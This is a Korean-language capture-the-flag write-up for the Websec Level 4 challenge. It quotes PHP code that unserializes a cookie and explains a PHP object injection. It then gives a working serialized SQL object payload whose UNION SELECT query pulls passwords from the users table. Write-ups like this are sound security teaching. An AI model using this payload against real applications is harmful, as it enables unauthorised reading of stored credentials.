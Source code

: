 ```yaml
---
title : "Websec - Level 4"
excerpt : "Websec - Level 4 Babysteps"
toc : true
toc_sticky : true
categories :
  - Websec
tags :
  - PHP object injection
---
```


## 1. Source code
```php
$sql = new SQL();
$sql->query = 'SELECT username FROM users WHERE id=';
if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
```
SQL 클래스의 소멸자 
```php
public function execute() {
        return $this->conn->query ($this->query);
    }

public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>'; # 이 부분 잊지 말기. 잊으면 바보같이 뻘짓함.
            }
        }
    }
```

## 2. Vulnerability

이 문제는 unserialize 함수를 이용한 **PHP object injection** 문제다.  
자세한 내용은 [PHP Object Injection](https://blog.do9.kr/150)  
**unserialize** 함수는 serialize된 문자열을 PHP 값으로 반환해주는 함수다.  
자세한 내용은 [PHP Serialize/Unserialize](http://chongmoa.com/php/6902)

코드를 보면 base64인코딩 된 쿠키 값을 디코딩 한 후 unserialize해서 변수에 담는다. **그 다음 주목할 부분은 try catch 구문이다.**
sess_data 변수 값이 배열이 아니라면 catch 구문으로 이동을 하고 예외상황을 출력한다. 이 부분이 unserialize 함수를 이용한 취약점이 터지는 곳이다.

## 3. Solution

쿠키 값에 SQL 객체를 serialize한 뒤 base64 인코딩 한 값을 줘야 한다. 
우선 플래그를 보려면 SQL 객체의 query 변수 값은 이렇게 되어야 한다.  
```select username from users where id=1 union select password from users where id=1```  
SQL 객체를 serialize를 해주면 이렇게 된다.  
```O:3:"SQL":1:{s:5:"query";s:81:"select username from users where id=1 union select password from users where id=1";}```  
이 문자열을 base64인코딩 해줘서 쿠키값으로 주면 catch 구문에서 sess_data 값을 출력을 해주므로 SQL 객체를 실행시켜서 소멸자에서 query를 실행시켜서 username에 플래그 값이 나온다. 
